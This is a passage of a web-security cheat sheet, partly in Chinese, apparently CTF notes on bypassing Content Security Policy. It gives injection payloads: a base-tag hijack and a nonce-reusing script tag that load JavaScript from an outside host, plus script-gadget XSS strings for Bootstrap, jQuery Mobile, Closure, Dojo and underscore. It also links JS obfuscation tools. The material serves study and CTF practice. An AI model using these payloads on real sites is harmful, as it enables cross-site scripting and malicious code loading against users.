 ## CSP evaluator

https://csp-evaluator.withgoogle.com/

## Bypass CSP

- base
  - 改變資源載入的域，引入惡意的js
  - `<base href ="http://kaibro.tw/">`
  - RCTF 2018 - rBlog

- script nonce

  ```
   <p>可控內容<p>
   <script src="xxx" nonce="AAAAAAAAAAA"></script>
  ```

  插入`<script src="http//kaibro.tw/uccu.js" a="`

  ```
   <p><script src="http//kaibro.tw/uccu.js" a="<p>
   <script src="xxx" nonce="AAAAAAAAAAA"></script>
  ```

- Script Gadget
  - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
  - is an **existing** JS code on the page that may be used to bypass mitigations
  - Bypassing CSP strict-dynamic via Bootstrap
    - `<div data-toggle=tooltip data-html=true title='<script>alert(1)</script>'></div>`
  - Bypassing sanitizers via jQuery Mobile
    - `<div data-role=popup id='--><script>alert(1)</script>'></div>`
  - Bypassing NoScript via Closure (DOM clobbering)
    - `<a id=CLOSURE_BASE_PATH href=http://attacker/xss></a>`
  - Bypassing ModSecurity CRS via Dojo Toolkit
    - `<div data-dojo-type="dijit/Declaration" data-dojo-props="}-alert(1)-{">`
  - Bypassing CSP unsafe-eval via underscore templates
    - `<div type=underscore/template> <% alert(1) %> </div>`
  - 0CTF 2018 - h4xors.club2
- google analytics ea
  - ea is used to log actions and can contain arbitrary string
  - Google CTF 2018 - gcalc2


## Online Encoding / Decoding
- http://monyer.com/demo/monyerjs/

## JSFuck
- http://www.jsfuck.com/

## aaencode / aadecode
- http://utf-8.jp/public/aaencode.html
- https://cat-in-136.github.io/2010/12/aadecode-decode-encoded-as-aaencode.html

